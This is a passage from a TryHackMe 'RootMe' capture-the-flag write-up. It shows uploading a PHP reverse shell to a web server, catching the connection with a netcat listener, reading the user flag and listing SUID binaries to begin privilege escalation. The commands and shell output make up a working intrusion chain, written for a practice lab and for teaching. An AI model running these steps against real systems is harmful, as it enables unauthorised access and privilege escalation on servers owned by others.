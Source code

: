 - Let's hit `Upload`.

![8](https://github.com/Knign/Write-ups/assets/110326359/5417e512-5007-4fd1-baeb-0e3c4f8b0f7e)

- Our file upload has been successful.
- We can now use `netcat` to listen for requests.
```
$ nc -nlvp 9999
```
- Next, let's go to the `/uploads` folder.

![9](https://github.com/Knign/Write-ups/assets/110326359/b1937f83-05b8-468b-b4de-7fd4dd682daf)

- On clicking on the `php-reverse-shell.php5` link, a request will be sent to our IP address on the `9999` port which will be caught by our `netcat` listener.
```
$ nc -nlvp 9999                                  
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.216.90] 44132
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:26:08 up 54 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- We have our reverse shell.
- Let's find the `user.txt` file using the `find` command.
```
$ find / -name user.txt 2>/dev/null  
/var/www/user.txt
```
- Now we simply have to `cat` the file.
```
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
### Answer
```
THM{y0u_g0t_a_sh3ll}
```

&nbsp;

## Task 4: Privilege escalation
### Search for files with SUID permission, which file is weird?
- Again, we can use the `find` command to find the relevant file.
```
$ find / -perm -u=s 2>/dev/null  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
```